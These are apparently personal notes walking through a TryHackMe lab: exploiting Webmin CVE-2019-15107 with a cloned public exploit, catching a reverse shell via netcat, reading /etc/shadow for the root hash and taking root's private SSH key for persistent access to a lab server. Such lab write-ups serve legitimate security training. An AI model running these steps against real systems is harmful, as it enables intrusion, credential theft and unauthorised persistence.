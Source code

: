In the previous task we found a vulnerable service[[1]](https://sensorstechforum.com/cve-2019-15107-webmin/)[[2]](https://www.webmin.com/exploit.html) running on the target which will give us the ability to execute commands on the target.

The next step would usually be to find an exploit for this vulnerability. There are often exploits available online for known vulnerabilities (and we will cover searching for these in an upcoming task!), however, in this instance, an exploit is provided [here](https://github.com/MuirlandOracle/CVE-2019-15107).

---

Start by cloning the repository. This can be done with the following command:

`git clone https://github.com/MuirlandOracle/CVE-2019-15107`  

This creates a local copy of the exploit on our attacking machine. Navigate into the folder then install the required Python libraries:

`cd CVE-2019-15107 && pip3 install -r requirements.txt`  

If this doesn't work, you may need to install pip before downloading the libraries. This can be done with:  
`sudo apt install python3-pip`  

The script should already be executable, but if not, add the executable bit (`chmod +x ./CVE-2019-15107.py`).

Never run an unknown script from the internet! Read through the code and see if you can get an idea of what it's doing. (Don't worry if you aren't familiar with Python -- in this case the exploit was coded by the author of this content and is being run in a lab environment, so you can infer that it isn't malicious. It is, however, good practice to read through scripts before running them).  

Once you're satisfied that the script will do what it says it will, run the exploit against the target!

`./CVE-2019-15107.py TARGET_IP`

![[Exploitation-20241127151137527.webp]]


[1] [https://sensorstechforum.com/cve-2019-15107-webmin/](https://sensorstechforum.com/cve-2019-15107-webmin/)  
[2] [https://www.webmin.com/exploit.html](https://www.webmin.com/exploit.html)

Run the following command to get the user.
```
# whoami
```

![[Exploitation-20241127151941324.webp]]

> [!Success]
>We won't need to escalate privileges here, so we can move on to the next step in the exploitation process. Before we do though: nice though this pseudoshell is, it's not a full reverse shell. Get a reverse shell from the target. You can either do this manually, or by typing `shell` into the pseudoshell and following the instructions given.

> [!question]
>Which user was the server running as?
>`root'
## Shell

- Type `shell` and introduce the ATTACKING MACHINE IP and a port.


![[Exploitation-20241129143642892.webp]]

- Open a `netcat` connection on the #Attacking_Machine .

```
$ nc -lnvp <port>
```

You'll have a reverse shell.


## Stabilize the reverse shell

Stabilizing a **reverse shell** is crucial for maintaining a reliable connection and improving usability.

**Optional:** Stabilise the reverse shell. There are several techniques for doing this detailed [here](https://tryhackme.com/room/introtoshells).

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ export TERM=xterm

```


## root user's password hash

Run the following command on the reverse shell:

```
# cat /etc/shadow
```

![[Exploitation-20241129144943322.webp]]

### **Hash Components**

1. **Hashing Algorithm**:  
    `$6$` signifies the use of **SHA-512** hashing.
    
2. **Salt**:  
    `i9vT8tk3SoXXxK2P` is the salt used in this hash. It randomizes the hash computation to ensure uniqueness, even if two users have the same password.
    
3. **Hash Value**:  
    `HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1` is the actual hash of the password combined with the salt.
    
4. **Remaining Fields**:  
    The `::0:99999:7:::` part relates to password aging and policy settings:
    
    - `0`: Minimum number of days before the password can be changed.
    - `99999`: Maximum number of days the password is valid.
    - `7`: Warning days before the password expires.
    - `:::`: Reserved fields, typically empty.


> [!question]
>Now for a little post-exploitation!What is the root user's password hash?
>`$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1`


## Consistent access to the root user account

You won't be able to crack the root password hash, but you might be able to find a certain file that will give you consistent access to the root user account through one of the other services on the box.

One of the services on the machine is SSH.

The **SSH (Secure Shell) service** is a network protocol that allows secure remote login and command execution over an encrypted connection. It is widely used to manage Linux/Unix systems remotely.

### **Key Features of SSH**

1. **Encryption**: All data transmitted between the client and server is encrypted.
2. **Authentication**:
    - Password-based authentication.
    - Key-based authentication using SSH keys.
3. **Port Forwarding**: Securely forward ports over an SSH connection.
4. **File Transfer**: Tools like `scp` and `sftp` are built on SSH for secure file transfer.
5. **Tunneling**: Encrypt network traffic for other applications (e.g., SOCKS proxy).

### **SSH Key Files Overview**

When you generate an SSH key pair, two files are created:

1. `id_rsa`: The private key (keep this secure and never share it).
2. `id_rsa.pub`: The public key (this can be shared and placed on the remote server).

These files are usually stored in the `~/.ssh/` directory on your Linux machine.

> [!question]
>What is the full path to this file?
>`/root/.ssh/id_rsa`

Download the key (copying and pasting it to a file on your own Attacking Machine works), then use the command `chmod 600 KEY_NAME` (substituting in the name of the key) to obtain persistent access to the box.  

## Connect via SSH to prod-serv

Connect to the prod-server (10.200.84.200) via SSH.
```
ssh root@10.200.84.200 -i id_rsa
```




We have everything we need for now. Let's move on to the next section: Pivoting!

**Next section:** [[Scan the internal network]]
